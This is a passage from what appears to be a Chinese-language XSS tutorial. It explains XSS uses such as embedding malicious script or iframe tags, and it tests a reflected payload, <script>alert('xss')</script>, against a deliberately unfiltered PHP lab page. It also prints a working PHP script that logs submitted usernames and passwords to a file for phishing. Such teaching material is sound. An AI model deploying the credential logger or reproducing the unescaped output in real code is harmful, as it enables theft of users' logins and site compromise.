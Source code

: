 记录信息

```php
<?php
$data =fopen('login.txt',"a+");
$login = $_POST["username"];
$pass = $_POST["password"];
fwrite($data,"username:$login\n");
fwrite($data,"password:$pass\n");
fclose($data);
Header("location:login.html");
?>
```

下图记录用户提交请求

![image-20200828105754440](/images/XSS/image-20200828105754440.png)

网页挂马(网页内嵌入script、或iframe等标签)

DOS或DDOS

#### DOM型

DOM型和反射型XSS类似因此不再重复写

### 实战验证

#### 反射型

反射型XSS使用网络检索得到一款源码搭建本地测试，反射型`payload`

##### 挑战一

```shell
//未编码
`<script>alert('xss')</script>`
```

```shell
<?php 
ini_set("display_errors", 0);
//外部输入变量
$str = $_GET["name"];
//变量值未经过滤直接输出
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<center><img src=level1.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
```

`Result`

![image-20200828134439412](/images/XSS/image-20200828134439412.png)
